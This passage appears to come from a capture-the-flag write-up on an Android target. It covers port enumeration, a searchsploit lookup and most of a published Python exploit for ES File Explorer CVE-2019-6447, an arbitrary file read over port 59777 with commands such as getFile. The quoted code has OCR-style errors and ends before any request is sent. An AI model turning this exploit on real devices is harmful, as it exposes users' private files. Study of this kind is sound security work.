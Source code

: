 It won't give us much information, but we know that there is an HTTP server on that port, and we will keep this in mind.

### Web Server On Port 59777

If we try to access the HTTP server on port 59777, we will see the following:

![Desktop View](enum2.png){: w="500" h="400" }
_Forbidden on port 59777_

Like the web server on port 42135, it does not give us much information, so we will continue exploring further.

### ES File Explorer

If we remember the initial enumeration phase, `Nmap` identified port 42135 as the `ES File Explorer` application. This application is a very popular file explorer for  `Android`, so we will search for any known vulnerabilities in the program. To do this, we will use [SearchSploit](https://github.com/offensive-security/exploitdb):

![Desktop View](enum3.png){: w="700" h="400" }
_searchsploit_

We can see how we have an arbitrary file read vulnerability in the `4.1.9.7.4` version of `ES File Explorer`. So we will download the exploit and start to examine how it works:

```python
# Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read
# Date: 29/06/2021
# Exploit Author: Nehal Zaman
# Version: ES File Explorer v4.1.9.7.4
# Tested on: Android
# CVE : CVE-2019-6447

import requests
import json
import ast
import sys

if len(sys.argv) < 3: 
	print(f "USAGE {sys.argv[0]} <command> <IP> [file to download]") 
	sys.exit(1) 

url = 'http://' + sys.argv[2] + ':59777'
cmd = sys.argv[1] 
cmds = ['listFiles', 'listPics', 'listVideos', 'listAudios', 'listApps', 'listAppsSystem', 'listAppsPhone', 'listAppsSdcard', 'listAppsAll', 'getFile', 'getDeviceInfo'] 
listCmds = cmds[: 9]

if cmd not in cmds: 
	print("[-] WRONG COMMAND!") print("Available commands : ") 
	print("  listFiles         : List all Files.") 
	print("  listPics          : List all Pictures.") 
	print("  listVideos        : List all videos.") 
	print("  listAudios        : List all audios.") 
	print("  listApps          : List Applications installed.") 
	print("  listAppsSystem    : List System apps.") 
	print("  listAppsPhone     : List Communication related apps.") 
	print("  listAppsSdcard    : List apps on the SDCard.") 
	print("  listAppsAll       : List all Application.") 
	print("  getFile           : Download a file.") 
	print("  getDeviceInfo     : Get device info.") 
	sys.exit(1) 

print("\n==================================================================") 
```